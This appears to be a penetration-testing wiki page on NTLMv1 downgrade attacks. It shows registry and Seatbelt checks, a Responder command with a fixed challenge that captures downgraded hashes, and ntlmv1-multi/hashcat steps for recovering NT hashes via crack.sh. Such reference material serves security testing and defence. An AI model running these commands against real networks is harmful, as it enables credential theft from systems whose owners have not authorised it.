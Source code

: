 # NTLMv1 Downgrade

- [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

Client sends NTLMv1 response when `LmCompatibilityLevel` exists and is `2` or lower, which can be downgraded to "NTLMv1 w/o SSP" when `NtlmMinClientSec` is `0x20` or lower:

| Property Name                                                                                                                                                          | Property Path                                      |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------------------------------------------------|
| [LmCompatibilityLevel](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level) | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa`        |
| [NtlmMinClientSec](http://systemmanager.ru/win2k_regestry.en/85673.htm)                                                                                                | `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0` |

Check with PowerShell:

```
PS > (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name LmCompatibilityLevel).LmCompatibilityLevel
2
PS > $decValue = (Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\MSV1_0\ -Name NtlmMinClientSec).NtlmMinClientSec
PS > $hexValue = "0x" + [string]::Format("{0:x}", $decValue)
PS > $hexValue
0x20
```

Check with [Seatbelt](https://github.com/GhostPack/Seatbelt/blob/fa0f2d94a049d825bef77e103e33167250ed2ac0/Seatbelt/Commands/Windows/NtlmSettingsCommand.cs#L149) ([ex](https://0xdf.gitlab.io/2021/04/10/htb-apt.html#seatbelt)):

```
Cmd > .\Seatbelt.exe NTLMSettings
```

Exploit with Responder with a known challenge of `1122334455667788` (see **Authentication Coercion** to trigger callbacks):

{% content-ref url="/pentest/infrastructure/ad/authentication-coercion.md" %}
[authentication-coercion.md](authentication-coercion.md)
{% endcontent-ref %}

```
$ sudo python Responder.py -I eth0 -v --lm --disable-ess
```




## ntlmv1-multi + crack.sh

- [https://crack.sh/netntlm/](https://crack.sh/netntlm/)
- [https://crack.sh/get-cracking/](https://crack.sh/get-cracking/)
- [https://crack.sh/cracking-ntlmv1-w-ess-ssp/](https://crack.sh/cracking-ntlmv1-w-ess-ssp/)
- [https://github.com/evilmog/ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi)

Calculate the token:

```
$ python ntlmv1.py --ntlmv1 '<NTLMv1_RESPONSE_STRING>'
```

Check the final 2 bytes (4 characters) of the NT hash:

```
$ ~/tools/hashcat-utils/src/ct3_to_ntlm.bin <CT3> 1122334455667788
```
